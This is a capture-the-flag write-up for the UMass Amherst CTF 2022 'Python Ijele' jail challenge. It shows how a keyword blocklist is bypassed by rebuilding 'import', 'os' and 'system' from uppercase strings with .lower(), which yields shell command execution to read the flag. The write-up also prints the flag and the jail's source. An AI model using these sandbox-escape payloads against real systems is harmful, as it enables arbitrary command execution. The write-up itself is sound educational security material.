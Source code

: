 # Python Ijele

**Author of Writeup**: S|{oto

**Author of Challenge**: Thomas C.

**CTF**:  UMass Amherst CTF 2022

**Description**:

*By Thomas C.*

*Google translate broke when I was making the instructions for this python jail.*

`nc 34.148.103.218 1227` 							 						 					

**Hints**: n/a

After running `nc 34.148.103.218 1227`, we're immediately greeted with:

```
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
>>>
```

As the description of the problem implies, we can use Google Translate to understand this message.  Putting the whole message into Google Translate doesn't yield anything, since the prompt is in multiple different languages.  To fix this, simply translate each word individually.  This gives the sentence `you have cracked my language code. Enter the word cow in English`.  

After you input `cow`, the following text appears:

```
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>>
```

Some simple testing will show that, indeed, trying to run any of the listed commands fails and disconnects you from the server.  Additionally, even if your input is acceptable, you can only run one command before you are disconnected from the server.  Thus, any solution we find must print the flag using one command.

First, we need to understand the filesystem that we're within, so that we can hopefully find a file containing the flag.  By default, python contains a dictionary of built-in commands which we can access using `__builtitns__.__dict__[functionname]`.  However, if `functionname` is any of the disallowed words, the jail will recognize that and stop us.  Luckily, since `functionname` is just a string argument here, we can evade the jail's detection by replacing `functionname` with `'FUNCTIONNAME'.lower()`.  Using this principle, we can chain together a series of such statements to create this:

```python
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>> print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['LISTDIR'.lower()]('.')
```

The above input accesses the `import` command and gives it the argument `os` to import the os module.  Then, it runs the method `listdir('.')`, from the `os` module, which returns a list of the files in the current directory.  Finally, the print statement outputs this list to the command line.  As a result, we get the following output:

`['.bashrc', '.bash_logout', '.profile', 'ynetd', 'Dockerfile', 'flag', 'ijele.py']`

So, we have found our flag!  Now we just have to read the contents of it.  To do this, let's alter our previous command.  We're still going to use the `os` module, but this time we'll use the method `system`, which takes UNIX commands as an argument and runs them.  In this case, we want to run `os.system('cat ./flag')` to print out the contents of the `flag` file.  Thus, we craft the following input:

`__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat "./flag"')`

Using this, the flag is printed for us: `UMASS{congrats-now-you-are-multilingual}`



For clarity, here is the full text of the two connections used to get the flag.

```python
$ nc 34.148.103.218 1227
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
>>> cow
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>> print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['LISTDIR'.lower()]('.'))
['.bashrc', '.bash_logout', '.profile', 'ynetd', 'Dockerfile', 'flag', 'ijele.py']

$ nc 34.148.103.218 1227
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
>>> cow
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat "./flag"')
UMASS{congrats-now-you-are-multilingual}
```

If, for learning purposes, you want to see the exact jail code that you're evading, you can use the following slightly modified version of the flag-printing input.

```python
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat "./ijele.py"')
def main():
    print('wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania')
    code = input('>>> ')
    if code.lower() == 'cow':
        print('Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.')
        text = input('>>> ')
        for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
            if keyword in text:
                print('Play by the rules!!! Try again.')
                return
        exec(text)
    else:
        print('Wrong code to break out. Sorry, try again!')
```
